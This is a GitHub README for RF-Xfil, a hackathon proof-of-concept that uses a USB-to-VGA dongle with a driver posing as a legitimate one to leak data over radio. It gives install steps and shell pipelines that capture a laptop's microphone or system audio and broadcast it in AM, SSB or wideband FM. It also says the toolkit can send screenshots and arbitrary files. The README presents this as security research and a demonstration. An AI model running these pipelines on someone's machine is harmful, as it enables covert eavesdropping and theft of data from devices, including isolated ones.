

# RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0



Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.

### Platforms
Supported platforms: Linux
osmo-fl2k works best with Linux

### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
Example: ubuntu
```
sudo apt install build-essential cmake pkg-config libfftw3-dev libusb-1.0-0-dev automake
```
2. run autoinstall.sh
```
./autoinstall.sh
```

### Using RF-Xfil main features
To find your sound input device:

#### Microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

#### Monitor input
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting audio:
Replace the '-d' with the one appriopriate to your purposes
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```
SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr bandpass_fir_fft_cc 0 0.1 0.01 | csdr gain_ff 2 | csdr shift_addition_cc 0.2 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```

Additionally, you can use your own data modulator/demodulator such as (AudioNetwork)[https://github.com/robertrypula/AudioNetwork] or (amodem)[https://github.com/romanz/amodem]

### Limitations

fl2k_iq does not work very well (sometimes not at all) when there isn't a constant carrier (like SSB modes). Hypothesis is that the chip itself switches power modes(?) which causes delays.

fl2k_iq creates spurious signals at frequency +/- sample_frequency
### Languages
English only (translations welcome)
